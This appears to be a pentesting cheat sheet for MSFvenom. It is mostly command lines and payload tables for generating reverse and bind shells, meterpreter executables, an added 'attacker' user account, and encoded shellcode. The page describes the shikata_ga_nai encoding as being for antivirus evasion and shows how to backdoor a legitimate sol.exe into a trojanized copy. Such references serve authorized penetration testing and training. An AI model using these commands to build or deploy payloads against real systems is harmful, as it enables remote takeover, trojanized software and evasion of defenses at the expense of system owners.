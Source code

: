# MSFvenom

For generation of payload shellcode and encoder for AV evasion.

A sample of MSFvenom command to generate shellcode of the bind\_tcp payload as below:

`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python`

Architecture: `-a`

Platform: `--platform`

Payload to be use: `-p`

Encoding \(for AV evasion, often `x86/shikata_ga_nai` \): `-e`

Embed in non-malicious file by using a template: `-x`

```text
 msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b "\x00" -f exe -o sol_bdoor.exe
```

Number of times to encode the payload: `-i`

Output format: `-f`

Help: `-h`

Variable \(default value is `buf`\): `-v`

Avoid bad character \(such as `'\x00'`\): `-b`

create the smallest shellcode possible: `–smallest`

add a few NOPs at the start of your payload: `-n`

```text
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e generic/none -f python -n 26
```

**List of Available Platform:**

```text
Cisco or cisco
OSX or osx
Solaris or solaris
BSD or bsd
OpenBSD or openbsd
hardware
Firefox or firefox
BSDi or bsdi
NetBSD or netbsd
NodeJS or nodejs
FreeBSD or freebsd
Python or python
AIX or aix
JavaScript or javascript
HPUX or hpux
PHP or php
Irix or irix
Unix or unix
Linux or linux
Ruby or ruby
Java or java
Android or android
Netware or netware
Windows or windows
mainframe
multi
```

**List of Available formats:** `-help-format`

```text
asp, aspx, aspx-exe, dll, **elf**, elf-so, **exe**, **exe-only**, exe-service, exe-small,
hta-psh, loop-vbs, **macho**, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
psh-cmd, vba, vba-exe, vba-psh, vbs, war
```

Transform formats

```text
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl,
powershell, ps1, py, python, raw, rb, ruby, sh,
vbapplication, vbscript
```

Typical payloads Sample command:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe -o reverse.exe
```

Windows \(`-f exe`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `windows/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `windows/meterpreter/bind_tcp` | RHOST, LPORT |
| Create User | `windows/adduser USER=attacker PASS=attacker@123` |  |
| CMD | `windows/exec` | `cmd="<command>"` |
| Encoder | `-e shikata_ga_nai` |  |

Linux \(`-f elf`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `linux/x86/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `linux/x86/meterpreter/bind_tcp` | RHOST, LPORT |
| Generic Shell | `generic/shell_bind_tcp` | RHOST, LPORT |

Mac OS \(`-f macho`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `osx/x86/shell_reverse_tcp` | LHOST, LPORT |
| Bind Shell | `osx/x86/shell_bind_tcp` | RHOST, LPORT |

